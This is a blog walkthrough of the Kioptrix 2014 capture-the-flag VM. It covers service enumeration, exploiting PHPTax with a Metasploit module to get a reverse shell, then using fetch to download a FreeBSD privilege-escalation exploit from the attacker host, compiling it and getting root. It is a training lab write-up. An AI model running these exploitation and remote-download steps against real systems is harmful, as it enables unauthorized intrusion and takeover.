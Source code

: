 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 2014 Walkthrough"
date:   2024-04-15 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix 2014 Walkthrough, CTF solution for Kioptrix Level 2014.'
categories: [walkthroughs]
tags:
- Kioptrix
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>

        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>        

      </tbody>

</table>
</div>


## Web Application Interrogation

<code>http://192.168.221.159:8080/</code> rendered a page 403 forbidden page. The Firefox UserAgent switcher was leveraged to change the browser to IE 6, exposing the web application **PHPTAX** (this took a while to figure out!):


![phptax](/img/blog/kioptrix/phptax.png)

![phptax2](/img/blog/kioptrix/phptax2.png)

## Non Privileged Shell

Research discovered a metasploit module existed for phptax:

{% highlight bash %}

msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > set RHOST 192.168.221.159
RHOST => 192.168.221.159
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set TARGETURI /phptax/
TARGETURI => /phptax/
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.221.159  yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > run

[*] [2016.01.07-08:20:41] Started reverse double handler
[*] [2016.01.07-08:20:41] 192.168.221.1598080 - Sending request...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Command: echo GiSakqCyBJv7ZAuW;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:42] Command: echo 4yauS5V9QPhhcobv;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "GiSakqCyBJv7ZAuW\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "4yauS5V9QPhhcobv\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] Command shell session 1 opened (192.168.221.162:4444 -> 192.168.221.159:45072) at 2016-01-07 08:20:43 -0500
[*] Command shell session 2 opened (192.168.221.162:4444 -> 192.168.221.159:62420) at 2016-01-07 08:20:43 -0500

id
uid=80(www) gid=80(www) groups=80(www)

{% endhighlight %}

## Local Privilege Escalation

The binary <code>fetch</code> was used to download a FreeBSD 9.0-9.1 mmap/ptrace - Privilege Escalation Exploit, fetch was used as the target didn't contain the usual binaries for file download (wget, curl, etc).

{% highlight bash %}

wget
wget: not found

curl
curl: not found

fetch -o exploit http://192.168.221.162:45/26368
exploit                                               2215  B   32 MBps

mv exploit exploit.c
gcc exploit.c -o exploit
./exploit

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
/bin/sh -i
sh: can't access tty; job control turned off
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
# cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in
mind, and not meant for the seasoned pentester. However this does not mean one
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks.

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)

{% endhighlight %}

Thanks for the VM :)
